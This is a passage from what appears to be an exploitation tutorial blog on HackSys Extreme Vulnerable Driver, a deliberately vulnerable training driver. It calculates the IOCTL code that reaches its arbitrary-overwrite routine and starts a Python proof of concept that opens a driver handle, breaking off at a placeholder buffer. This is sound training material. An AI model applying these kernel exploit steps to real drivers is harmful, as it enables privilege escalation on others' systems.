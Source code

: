 After tracing the IOCTL routine that jumps into the `TriggerArbitraryOverwrite()` function, here is what is displayed:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB2.png" alt="">

The above routine is part of a chain as displayed as below:

<img src="{{ site.url }}{{ site.baseurl }}/images/ARB3.png" alt="">

Now time to calculate the IOCTL code- which allows us to interact with the vulnerable routine. Essentially, look at the very first routine from above, that was utilized for my last blog post. The IOCTL code was `0x222003`. (Notice how the value is only 6 digits, even though x86 requires 8 digits in a memory address. `0x222003` = `0x00222003`) The instruction of `sub eax, 0x222003` will yield a value of zero, and the `jz short loc_155FB` (jump if zero) will jump into the `TriggerStackOverflow()` function. So essentially using deductive reasoning, EAX contains a value of `0x222003` at the time the jump is taken.

Looking at the second and third routines in the image above:

```nasm
sub eax, 4
jz short loc_155E3
```
and

```nasm
sub eax, 4
jz short loc_155CB
```
Our goal is to successfully complete the "jump if zero" jump into the applicable vulnerability. In this case, the third routine shown above, will lead us directly into the `TriggerArbitraryOverwrite()`, if the corresponding "jump if zero" jump is completed.

If EAX is currently at `0x222003`, and EAX is subtracted a total of 8 times, let's try adding 8 to the current IOCTL code from the last exploit- `0x222003`. Adding 8 will give us a value of `0x22200B`, or `0x0022200B` as a legitimate x86 value. That means by the time the value of EAX reaches the last routine, it will equal `0x222003` and make the applicable jump into the `TriggerArbitraryOverwrite()` function!

Proof Of Concept
---
Utilizing the newly calculated IOCTL, let's create a POC:

```python
import struct
import sys
import os
from ctypes import *
from subprocess import *

# DLLs for Windows API interaction
kernel32 = windll.kernel32
ntdll = windll.ntdll
psapi = windll.Psapi

# Getting handle to driver to return to DeviceIoControl() function
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)

poc = "\x41\x41\x41\x41"                # What
```